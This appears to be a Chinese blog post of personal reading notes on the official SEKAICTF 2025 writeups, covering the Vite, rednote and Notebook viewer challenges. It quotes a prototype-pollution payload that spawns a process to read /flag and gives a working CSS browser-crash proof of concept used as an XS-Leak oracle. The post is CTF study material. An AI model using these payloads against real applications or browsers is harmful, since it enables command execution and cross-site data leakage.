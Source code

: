 ```yaml
---
title: SEKAICTF 2025 官方 wp 的阅读笔记
date: 2025-08-25T00:47:11+08:00
tags:
  - CTF
---
```


Official Writeup: https://github.com/project-sekai-ctf/sekaictf-2025/

这里是阅读笔记以及一些个人的理解和总结。

（不知道会不会有人误解，总之这篇文章仅代表我个人的观点和看法，与SekaiCTF官方无关）

<!-- more -->

# Vite



```
"__proto__.source": """
Object.prototype.flag = btoa(process.binding('spawn_sync').spawn({ file: '/flag', args: [ '/flag' ], stdio: [ {type:'pipe',readable:!0,writable:!1}, {type:'pipe',readable:!1,writable:!0}, {type:'pipe',readable:!1,writable:!0} ]}).output.toString())
""",
```

这nm是prototype pollution啊woc

```
import { form_data } from 'sk-form-data'

export const handle = form_data
```
然后
`sk-form-data`使用 https://github.com/milamer/parse-nested-form-data 这个来解析form-data

真去看了发现 这个库真有prototype pollution的风险啊

这个真是逆天吧 parse-nested-form-data 这库快3年了，周均下载量2k了没有一个人意识到prototype pollution的风险然后发个issue啥的吗？？？

太爆了这个

至于source和flag这个，只能说有prototype pollution之后发生什么我都不会感到奇怪

---

总结就是如果代码中有用的东西太少，恐怕真得去考虑供应链了

# rednote

看了PoC，用的是`@starting-style`的一个漏洞，可以导致页面崩溃，严格上也能算XSLeak了

试着造了一个PoC，

```html
<html>
    <body>
        <style></style>
        <div class="main">
                  hihi
      <style>
        @starting-style {
          *::first-letter {
            Anything: Anyvalue
          }
        }
      </style>
        </div>
    </body>
</html>
```

![](repro.png)

在我的Edge上堂堂复现。

这个也很逆天啊，而且就是说只要我找一个能导致浏览器crash的CSS片段，然后只要CSP没有限死style像下面这样

```plain
default-src 'none';
script-src 'nonce-${nonce}' 'unsafe-inline';
style-src 'unsafe-inline';
```

然后就能直接XSLeak了，这简直无敌好吧，比那些个用font-src来leak的逆天多了

-------

然后具体到这个导致浏览器crash的洞，这个则是我在网上搜不到任何有关的信息

找到一个这个，感觉可能有点像：[Null-dereference READ in blink::Element::StyleForLayoutObject](https://issues.chromium.org/issues/435225409)，但是我看不到reproduce.html，所以也不能确定

然后还有一个这个：[Animating clip-path with allow-discrete results in a crash](https://issues.chromium.org/issues/414984557)，感觉`@starting-style`也是一个crash重灾区，可以着重关注一下

无论如何，主要是真的是感觉一般人想不到这个啊（（（ 

不过这一题还是有四解，应该是有其它crash或者其它XSLeak方案。

# Notebook viewer

唯一做出来的题。个人Writeup见 [这里](/arch/SEKAICTF-2025-writeup-Notebook-viewer)

没什么好说的其实，不过官方wp用的是`performance.memory.usedJSHeapSize`。